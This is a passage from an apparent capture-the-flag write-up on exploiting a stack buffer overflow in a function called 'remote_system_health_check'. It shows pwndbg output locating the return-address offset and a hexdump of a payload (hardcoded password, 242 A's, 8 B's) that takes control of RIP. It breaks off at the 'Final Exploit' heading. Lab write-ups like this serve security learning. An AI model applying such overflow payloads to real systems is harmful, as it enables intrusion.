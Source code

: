 

Running the script I  have:

```bash
 RSP  0x7fffffffe588 ◂— 'aclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac'
 RIP  0x4012dd (remote_system_health_check+118) ◂— ret
─────────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x4012dd <remote_system_health_check+118>    ret    <0x616d6361616c6361>
 pwndbg> cyclic -l acla
242
pwndbg>
```

Lets check  this again. Now send `242 A's` and `8 B's`:

```bash
┌[root☮2d6562dcd579]-(/pwd)
└> python3 asd.py > a.txt
┌[root☮2d6562dcd579]-(/pwd)
└> hexyl a.txt
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ 73 55 70 33 72 5f 53 33 ┊ 63 72 33 54 5f 50 34 73 │sUp3r_S3┊cr3T_P4s│
│00000010│ 35 77 30 72 44 00 41 41 ┊ 41 41 41 41 41 41 41 41 │5w0rD0AA┊AAAAAAAA│
│00000020│ 41 41 41 41 41 41 41 41 ┊ 41 41 41 41 41 41 41 41 │AAAAAAAA┊AAAAAAAA│
│*       │                         ┊                         │        ┊        │
│00000100│ 41 41 41 41 41 41 41 41 ┊ 42 42 42 42 42 42 42 42 │AAAAAAAA┊BBBBBBBB│
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘

```

```bash
 RSP  0x7fffffffe588 ◂— 'BBBBBBBB'
 RIP  0x4012dd (remote_system_health_check+118) ◂— ret
──────────────────────────[ DISASM ]─────────────────────────────────────────────────────
 ► 0x4012dd <remote_system_health_check+118>    ret    <0x4242424242424242>



───────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────
00:0000│ rsp  0x7fffffffe588 ◂— 'BBBBBBBB'
01:0008│      0x7fffffffe590 —▸ 0x7fffffffe600 ◂— 0x6bb013aaf29a6ece
```



# Final Exploit



## Another pitfall 



The necessary knowledge for write a exploit that  already have. Lets check this:
